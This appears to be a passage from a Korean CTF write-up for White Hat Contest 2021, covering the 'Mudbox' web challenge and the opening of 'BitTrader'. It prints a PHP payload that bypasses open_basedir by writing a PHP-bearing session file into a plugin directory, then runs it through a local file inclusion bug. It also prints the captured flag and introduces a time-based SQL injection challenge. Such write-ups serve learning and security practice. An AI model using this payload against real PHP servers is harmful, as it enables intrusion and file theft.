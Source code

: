 ![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/flag.png?raw=true)

위 poc 코드를 실행 시켜주면 UAF Sandbox Escape 공격으로 플래그를 읽어오는 것을 볼 수 있습니다.

---
```php
echo session_save_path()."<br>";
mkdir("a");
mkdir("a/b");
chdir("a/b/");
session_save_path("../../plugin");
chdir("../..");
session_start();
$_SESSION['test']="<?php include(\"/flag\"); ?>";
```

두 번째 , open_basedir 우회하는 방식은 `session_save_path()` 함수를 이용해서 세션 파일을 원하는 곳에 생성 시켜 우회하는 방식입니다. 일단 위 페이로드를 이용해서 'plugin/' 디렉터리에 세션 파일로 웹쉘을 생성을 합니다. 

```php
<?php

$p = $_GET["p"] ?? "about";

if(preg_match("/[^A-Za-z0-9\-_]/", $p))
    $p = "about";

include "./$p";
```
`/plugin`에 인덱스 파일을 보면 입력값에 문자열 및 '-', '\_' 문자열만 포함되어 있어야 하고, include를 이용해서 입력값에 대한 파일을 가져오는 것을 알 수 있습니다. 그렇기 때문에 위에서 올린 세션 파일을 LFI를 이용해 가져와 실행 시키면 플래그를 획득할 수 있습니다. 세션 파일명은 `(sess_phpsessid)` 입니다.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-12%20%EC%98%A4%ED%9B%84%205.53.30.png?raw=true)

일단 위 코드를 pht 확장자로 업로드 합니다.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-12%20%EC%98%A4%ED%9B%84%205.55.27.png?raw=true)

파일을 실행 하고, LFI 취약점을 이용해 파일을 실행 하니 플래그가 출력되는 것을 볼 수 있습니다.

```plaintext
FLAG{b4s3dir_i5_n0t_s4fe_h4h4}
```

---
# (Web) BitTrader [482 pts]

> BitTrader 문제는 join을 이용해서 테이블을 여러개 조인 해 줄 경우 발생하는 슬립 현상을 이용해서 Time Based SQL Injection을 하는 문제 입니다. 

해당 문제는 대회 당시에 Mudbox와 다르게 그냥 감 자체를 잡지 못 했고, 공부용으로도 너무 좋은 문제라서 대회가 끝났지만 계속 풀어보기로 했습니다. 일단 대회 당시에 SQL Injection인 것을 알았지만 어떤 식으로 데이터를 추출해야 하는 지 알지 못 했습니다.

![](https://media.discordapp.net/attachments/857916308892418071/887238980481978418/1.png?width=1588&height=1077)
